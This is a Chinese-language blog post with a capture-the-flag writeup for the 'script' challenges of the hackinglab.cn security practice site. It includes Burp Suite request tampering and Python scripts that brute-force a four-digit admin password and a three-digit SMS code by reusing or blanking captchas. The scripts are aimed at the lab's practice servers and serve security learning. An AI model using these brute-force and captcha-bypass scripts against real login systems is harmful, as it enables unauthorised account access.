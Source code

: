 ```yaml
---
layout: post
title: 网络安全实验室--脚本关writeup
tag: codes
---
```


<h2>开始</h2>

最近开始搞网络安全方面的实践，找到了[网络安全实验室](http://hackinglab.cn)这个网站。做了小部分的题目，顺便记录下做题过程的writeup。

<h5>脚本关</h5>脚本关

<h6>[第一关]</h6>

点击链接后，页面会直接跳转到no_key_is_here_forever.php这个页面，然而根据页面源代码，应该是首先跳转到search_key.php。

<img src="/images/writeup1.png" />

所以，在search_key.php这个页面存在猫腻，接下来就是利用brup suite进行对数据的截取。
在http history中，找到三次get数据，其中关于search_key.php的响应如下：

<img src="/images/writeup1_1.png" />

Get Key! 从响应中也能发现，返回了一段script代码，页面自动跳转到no_key_is_here_forever.php，所以看不到返回的key。

<h6>[第二关]</h6>

经过观察，给出式子的格式是固定的，那么就只要获取数字，代入公式一样得出结果。
所以用python写脚本：

{% highlight python %}
#coding:utf-8
import requests
from bs4 import BeautifulSoup
import re

cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
url = 'http://lab1.xseclab.com/xss2_0d557e6d2a4ac08b749b61473a075be1/index.php'
response = requests.get(url,cookies=cookie)

soup = BeautifulSoup(response.text,'html.parser')
form = soup.find('form')
form = str(form)
snum = re.findall(r'\d+',form)

num = []
for n in snum[1:]:
	num.append(int(n))

result = num[0] * num[1] +num[2] * (num[3] + num[4])

post = {'v' : result}
res = requests.post(url,cookies=cookie,data=post)

print res.content
{% endhighlight %}
结果：

<img src="/images/writeup2_1.png" />

Get key!

<h6>[第三关]</h6>

第三关没有链接，提示是这个题目是空的，空的，空：null(还提示是小写)。

<h6>[第四关]</h6>

点击网页上的链接，并没有出现弹窗。观察了一下页面源码。

<img src="/images/writeup4_1.png" />

前两个js函数导致弹窗的失败，试过把后面所要的代码放进到chrome中的console中运行，报错。然后就只能直接保存页面，删除文件里面的两个函数，直接打开。

<img src="/images/writeup4_2.png" />

Get key!

<h6>[第五关]</h6>

暴力破解4位纯数字的密码，但是有验证码。虽然python能自动识别验证码，但是应该也能有什么绕过的方法。
依旧是开启brup suite，对提交的数据进行获取，然后放进brup suite里面重复提交，偶然发现只要页面没有进行刷新，产生的验证码就一直有效。
既然是脚本关，那就得用脚本来解决问题。

{% highlight python%}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php'

username = 'admin'
submit = 'submit'

pwd = 1000
cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'pwd':pwd,'vcode':'zp9p','submit':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',pwd
	pwd += 1
	if 'pwd' not in res.content:
		break

{% endhighlight %}

<img src="/images/writeup5_1.png" />

Get key!

<h6>[第六关]</h6>

依旧是验证码的问题。试试留空能不能绕过。

{% highlight python%}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php'

username = 'admin'
submit = 'submit'

pwd = 1000
cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'pwd':pwd,'vcode':'','submit':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',pwd
	pwd += 1
	if 'pwd' not in res.content:
		break

{% endhighlight %}

<img src="/images/writeup6_1.png" />

Get key!

<h6>[第七关]</h6>

同上，留空绕过验证码。

<img src="/images/writeup7_1.png" />

<h6>[第八关]</h6>

暂时没有解出来。

<h6>[第九关]</h6>

手机验证码登录，获取验证码后，提示please login as 13388886667，那就用这个号登录呗，又被告知

<img src="/images/writeup9_1.png" />

只能再用brup suite进行截取数据了。

<img src="/images/writeup9_2.png" />

有用只有6666这个号码能获取到验证码，那么就修改下数据包里面的参数，将号码改成6666获取一波验证码，试试看有没有用。

<img src="/images/writeup9_3.png" />

Get Key!

<h6>[第十关]</h6>
依旧是验证码，三位数的，python暴力的跑吧。

{% highlight python %}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode6_mobi_b46772933eb4c8b5175c67dbc44d8901/login.php'

username = '13388886666'
submit = 'submit'

vcode = 100
fobj = open('t.html','w')

cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'vcode':vcode,'login':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',vcode
	vcode += 1
	fobj.writelines(res.content)
	if 'key'  in res.content:
		break

{% endhighlight %}
将所有的响应结果保存下来，发现这个。

<img src="/images/writeup10_1.png" />

再登录提示的账号，只要修改脚本里面的username就可以了。

<img src="/images/writeup10_2.png" />

Get Key!
